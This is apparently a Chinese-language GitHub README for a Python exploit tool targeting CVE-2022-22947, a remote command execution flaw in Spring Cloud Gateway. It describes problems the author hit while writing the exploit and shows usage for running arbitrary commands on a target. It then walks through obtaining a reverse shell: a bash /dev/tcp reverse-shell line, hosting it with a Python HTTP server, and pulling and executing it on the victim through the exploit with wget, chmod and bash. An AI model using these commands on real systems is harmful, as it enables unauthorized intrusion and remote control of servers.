 # 工具介绍

嘛。天天在外面跑项目，终于抽点时间研究一下这个漏洞的poc了。

**这东西吧有点问题，如果输错命令呀或者输入的命令不存在再或者你输入的命令没有返回结果的，就会返回上一个命令的结果。嘛没办法。不是exp的问题。**

就随便写了一个。辣鸡。大佬看着辣眼睛请绕过。

写这个exp的时候碰到了很多的问题把。

1. 网上的有个poc的那个是这样写。多了一个new String[]。然后发现不能执行带有空格的命令，想了好些办法，比如空格绕过$IFS呀啥的都不行。然后看到另一个poc可以。想不通在哪找了好多地方的问题。还以为是我写错了。最后仔细对比才发现。使用的地方差了一点点。

![image-20220304141150921](images/image-20220304141150921.png)

2. 这个rui的http里面的东西虽然可以瞎写好些。但是如果没写http:// 就不行。一开始我写漏了。就写了一个127.0.0.1结果失败了。

![image-20220304141538271](images/image-20220304141538271.png)

# 工具的使用

使用:

```
python CVE-2022-22947.py 目标 "执行的命令"
```

![image-20220304140157102](images/image-20220304140157102.png)

![image-20220304140213492](images/image-20220304140213492.png)


反弹直接执行反弹shell的命令好像是不行的。

我是先新建了一个shell.sh，然后在文件中写入反弹shell的命令。
```
bash -i >& /dev/tcp/ip/prot 0>&1
```
然后在shell.sh的目录下，用python开启一个http服务。
```
python3 -m http.server 8080
```
再然后用wget下载一个shell.sh。
```
python CVE-2022-22947.py 目标 "wget http://xxxxx:8080/shell.sh"
```
再再然后给一个文件的执行权限。
```
python CVE-2022-22947.py 目标 "chmod +x shell.sh"
```
最后执行shell.sh文件。
```
python CVE-2022-22947.py 目标 "bash shell.sh"
```
这样就把shell反弹出去了。
